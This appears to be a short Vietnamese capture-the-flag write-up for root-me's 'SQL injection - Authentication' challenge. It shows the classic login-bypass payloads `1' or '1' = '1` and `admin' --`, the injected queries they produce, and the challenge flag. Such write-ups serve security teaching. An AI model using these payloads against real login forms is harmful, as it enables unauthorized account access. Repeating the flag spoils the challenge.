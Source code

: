 # [SQL injection - Authentication](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-authentication)

## Solutions

- Nhập `1' or '1' = '1` cho cả username và password:

```sql
SELECT * FROM table WHERE username = '...' AND password = '...'
```

=>

```sql
SELECT * FROM table WHERE username = '1' or '1' = '1' AND password = '1' or '1' = '1'
```

=> Lấy được `user1`

- Để lấy được `admin` thì nhập `admin' --` cho username và password bất kì là thành công

```sql
SELECT * FROM table WHERE username = '...' AND password = '...'
```

=>

```sql
SELECT * FROM table WHERE username = 'admin' --' AND password = ''
```

Flag: `t0_W34k!$`
